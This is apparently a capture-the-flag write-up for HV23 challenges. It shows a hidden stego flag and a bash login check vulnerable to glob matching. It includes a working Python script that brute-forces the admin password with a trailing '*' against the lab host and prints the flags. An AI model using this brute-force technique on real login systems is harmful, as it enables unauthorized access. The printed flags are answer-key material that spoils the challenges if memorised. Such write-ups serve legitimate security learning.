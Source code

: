 ## [HV23.H1] Kringle's Secret
### Decription
> Can you feel it? I feel like there's a... hidden flag in one of the easy challenges!
### Solution
It turns out this flag is hidden in the 6th easy challenge. To be more exact, the flag is hidden in the wallpaper.png file. To find it you can use zsteg or you can just use [aperisolve](https://www.aperisolve.com/) and upload your image.   
Flag: **HV23{no_ctf_without_stego}**

# Medium
## [HV23.08] SantaLabs bask (coderion)
### Decription
> Ditch flask and complicated python. With SantaLabs bask, you can write interactive websites using good, old bash and even template your files by using dynamic scripting!  

> Hint #1: Santa noticed the snow had a very peculiar shape today.  
### Solution
When using [shellcheck](https://www.shellcheck.net/) and scanning the **post_login.sh** the tool reports a globbing vulnerability.
```
Line 14:
if [[ $ADMIN_PASSWORD == $POST_PASSWORD ]]; then
                         ^-- SC2053 (warning): Quote the right-hand side of == in [[ ]] to prevent glob matching.
```
This means that the password can be bruteforced character by character. You can use 'password*' and the * in the end just matches the rest.  

solve.py:   
```python
import requests
from string import printable
from time import sleep
import re

url = 'http://xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx.idocker.vuln.land'

password = 'salami'
while True:
    for p in printable[:71]:
        print(f'trying {password+p}*')
        resp = requests.post(url+'/login', data=f'password={password+p}*').text
        while not ('redirecting' in resp or 'Invalid username or password!' in resp):
            print(f'continuing trying {password+p}*')
            resp = requests.post(url+'/login', data=f'password={password+p}*').text
            sleep(0.25)
        if 'redirecting' in resp:
            password += p
            break
    else:
        break

print('\nFlag: '+re.findall(r'(HV23\{\w.*?\})', requests.get(url+'/admin', cookies={'admin_token':password}).text)[0])
```
Flag: **HV23{gl0bb1ng_1n_b45h_1s_fun}**  
## [HV23.09] Passage encryption (dr_nick)